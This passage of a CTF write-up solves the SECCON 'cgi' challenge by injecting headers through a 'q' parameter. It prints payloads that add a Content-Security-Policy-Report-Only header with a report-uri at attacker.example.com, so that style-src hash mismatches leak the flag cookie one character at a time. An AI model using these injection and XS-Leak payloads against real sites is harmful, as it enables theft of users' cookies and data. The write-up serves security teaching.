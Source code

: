 ```javascript
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```

From the implementation, the goal seems to steal the flag cookie with XS-Leak.

### Solution

Obviously, you can perform header injection attacks for a parameter `q`.

If you access the following URL:
```javascript
location = "http://localhost:3000?q=" +
  encodeURIComponent(`Content-Type: text/html\n\n<h1>Injected</h1>`)
```

The website will show:
![](/images/2023/20231228_seccon-ctf-finals-cgi-2023-01.png)

Is there a useful header that could be used for XS-Leaks?

My solution used `Content-Security-Policy-Report-Only`:

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only

If the following header exists, a CSP error report is sent to the attacker server when the subresource integrity (SRI) check fails for `style-src`:
```
Content-Security-Policy-Report-Only: style-src 'sha256-...'; report-uri http://attacker.example.com
```

Now, consider the following URL:
```javascript
location = "http://localhost:3000?q=" + encodeURIComponent(`
Content-Type: text/html
Content-Length: 74
Content-Security-Policy-Report-Only: style-src 'sha256-sUk0UQj8k0hBY6zv2BrvpRoV2OT8ywX8KXOsunsVi9U='; report-uri http://attacker.example.com

<style>`.trimStart())
```
where `sha256-sUk0UQj8k0hBY6zv2BrvpRoV2OT8ywX8KXOsunsVi9U=` is the integrity value of the following string:
```
Status: 200 OK
Content-Type: text/plain; charset=utf-8

SECCON{d
```

Then, the response body is as follows if the flag cookie is `FLAG=SECCON{dummy}`:
```html
<style>Status: 200 OK
Content-Type: text/plain; charset=utf-8

SECCON{d
```
